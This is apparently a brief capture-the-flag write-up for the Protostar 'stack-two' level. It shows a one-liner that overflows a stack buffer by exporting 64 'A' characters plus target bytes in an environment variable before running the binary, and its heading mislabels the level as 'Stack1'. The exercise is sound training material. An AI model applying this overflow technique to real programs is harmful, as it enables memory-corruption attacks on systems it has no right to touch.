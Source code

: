 ```
TL;DR -> `export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'") && ./stack2`
```

# Stack1

URL: https://exploit.education/protostar/stack-two/

This level is same as `stack1` (checkout that writeup), the only difference is, we have to set payload in env variable. That can be easily done using `export $VARIABLE=value`

In our case, the payload will be: `export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'")`

---

One liner solution:
`export GREENIE=$(python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'") && ./stack2`
